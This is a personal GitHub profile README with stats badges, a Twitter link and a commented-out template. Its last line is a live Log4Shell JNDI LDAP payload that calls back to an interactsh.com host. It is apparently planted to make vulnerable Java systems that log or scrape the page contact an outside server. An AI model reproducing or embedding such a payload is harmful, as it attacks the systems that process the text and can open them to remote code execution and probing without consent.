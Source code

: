 ### Hi 👋🦆     [![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)    <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> 

[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&hide=issues&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)

[![willianrod's wakatime stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact)](https://dev.lwlx.xyz)

[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&layout=compact&langs_count=7&hide=html)](https://dev.lwlx.xyz)
  
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
